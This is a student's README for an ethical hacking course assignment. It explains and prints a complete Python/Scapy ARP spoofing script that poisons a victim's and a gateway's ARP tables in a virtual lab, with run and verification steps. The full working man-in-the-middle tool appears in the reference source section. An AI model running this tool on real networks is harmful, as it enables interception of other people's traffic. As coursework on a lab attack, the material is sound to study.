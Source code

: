 # 🛡️ ARP Spoofer using Scapy | CSCI369 Ethical Hacking Assignment (Q1)

This repository contains a Python-based ARP spoofing tool built as part of the **CSCI369 Ethical Hacking** module (SIM-UOW, S3 2025). The assignment focused on demonstrating a practical **man-in-the-middle (MITM)** attack using **Scapy** in a virtual lab setup involving Kali Linux and Metasploitable2 VMs.

---

## 📘 Assignment Objective

> "Write a Python program that performs an ARP spoofing attack with a single command:  
> `sudo python3 arpspoof.py <Victim_IP> <Router_IP>`  
> The tool must use the `scapy` package (no subprocess or shell commands) and demonstrate a successful ARP spoof against a Metasploitable2 VM when executed from a Kali VM."

---

## 💻 What This Script Does

This Python script performs an ARP spoofing attack using the Scapy library. When run from Kali Linux, it continuously sends fake ARP replies to both a victim machine (e.g., Metasploitable2) and the default gateway (router). The attacker (Kali) pretends to be the router to the victim, and vice versa. This causes both parties to unknowingly send their traffic to the attacker — enabling man-in-the-middle (MITM) attacks. The script takes two IP arguments (victim and router), resolves their MAC addresses, and uses crafted ARP replies to poison their ARP tables. When the user presses CTRL+C, the program automatically sends legitimate ARP replies to restore the original network state. This technique demonstrates a fundamental Layer 2 attack in ethical hacking scenarios.

---

## 🧪 Lab Setup

| VM              | Role      | Example IP   |
|-----------------|-----------|--------------|
| Kali Linux      | Attacker  | 10.0.2.15    |
| Metasploitable2 | Victim    | 10.0.2.4     |
| Router/Gateway  | Router IP | 10.0.2.1     |

---

## 🔧 How to Run

### 💡 Prerequisites
- VirtualBox with **Kali Linux** and **Metasploitable2** VMs
- Both VMs on the **same network** (e.g., NAT or Host-Only)
- Install Scapy on Kali:
  ```bash
  sudo apt update
  sudo apt install python3-scapy
  ```

### ▶️ Execution Command

```bash
sudo python3 arpspoof.py <Victim_IP> <Router_IP>
```

Example:
```bash
sudo python3 arpspoof.py 10.0.2.4 10.0.2.1
```

---

## 🔍 How to Verify the ARP Spoofing Attack

1. **Start the script from Kali**:
   ```bash
   sudo python3 arpspoof.py 10.0.2.4 10.0.2.1
   ```

2. **Switch to Meta2** and run:
   ```bash
   arp -a
   ```

3. Check the entry for the **router IP (e.g. 10.0.2.1)** — it should now point to the **IP address of Kali**, meaning:
   - Meta2 believes the router's IP is located at Kali's MAC

4. To confirm this from Kali, run:
   ```bash
   ifconfig
   ```
   - Get Kali’s IP (e.g. `10.0.2.15`)
   - If Meta2’s ARP table shows `10.0.2.1` → mapped to Kali’s MAC, the spoof worked ✅

5. Press `CTRL+C` in Kali to stop the script — it restores the network.

6. Run `arp -a` again in Meta2 — now the router IP should point back to its original MAC.

---

## 📌 How Did I Find the IPs?

### Victim IP (Meta2):
```bash
ifconfig
```

### Router IP (Default Gateway):
```bash
netstat -rn
```

Look for:
```
Destination   Gateway
0.0.0.0       10.0.2.1
```

---

## 🧠 Optional Learning Tools

- Ping test:
  ```bash
  ping 10.0.2.1  # From Meta2
  ping 10.0.2.4  # From Kali
  ```

---

## 🧾 Reference: Python Source Code (`arpspoof.py`)

```
#!/usr/bin/env python3
# CSCI369 Ethical Hacking Assignment - Q1
# Sheethal Santhanam 2025

from scapy.all import ARP, send, srp, Ether
import sys
import time

# Check for valid input: script requires victim and router IPs
if len(sys.argv) != 3:
    print("Usage: sudo python3 arpspoof.py <Victim_IP> <Router_IP>")
    sys.exit(1)

# Assign victim and router IPs from command line args
victim_ip = sys.argv[1]
router_ip = sys.argv[2]

# Function to resolve MAC address of an IP using ARP request
def get_mac_address(ip):
    arp_req = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_broadcast = broadcast / arp_req
    response = srp(arp_broadcast, timeout=2, verbose=False)[0]
    return response[0][1].hwsrc if response else None

# Function to send a spoofed ARP reply to target_ip, pretending to be spoof_ip
def send_spoof_packet(target_ip, spoof_ip):
    target_mac = get_mac_address(target_ip)
    if target_mac:
        spoofed_arp = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        send(spoofed_arp, verbose=False)
        print(f"[DEBUG] Sent spoofed packet to {target_ip} claiming to be {spoof_ip}")

# Function to restore the real MAC bindings after CTRL+C
def restore_arp_table(destination_ip, source_ip):
    dest_mac = get_mac_address(destination_ip)
    source_mac = get_mac_address(source_ip)
    correct_arp = ARP(op=2, pdst=destination_ip, hwdst=dest_mac, psrc=source_ip, hwsrc=source_mac)
    send(correct_arp, count=4, verbose=False)
    print(f"[INFO] Restored ARP for {destination_ip} → {source_ip}")

# Main loop for attack
try:
    print("[+] ARP Spoofing started. Press CTRL+C to stop and restore network.")
    while True:
        send_spoof_packet(victim_ip, router_ip)  # Tell victim we are the router
        send_spoof_packet(router_ip, victim_ip)  # Tell router we are the victim
        time.sleep(2)

# Graceful exit on CTRL+C — restore ARP tables
except KeyboardInterrupt:
    print("\n[!] CTRL+C detected. Restoring network...")
    restore_arp_table(victim_ip, router_ip)
    restore_arp_table(router_ip, victim_ip)
    print("[+] ARP tables restored. Exiting.")

```

---

**Sheethal Santhanam**  
📍 Singapore | SIM-UOW  
🎓 Bachelor of Computer Science  
🛡️ Double Major: Digital Systems Security & Cybersecurity  

---

> 🛑 **Disclaimer**: This project is for educational use only.  
> Never perform ARP spoofing outside a controlled lab environment.
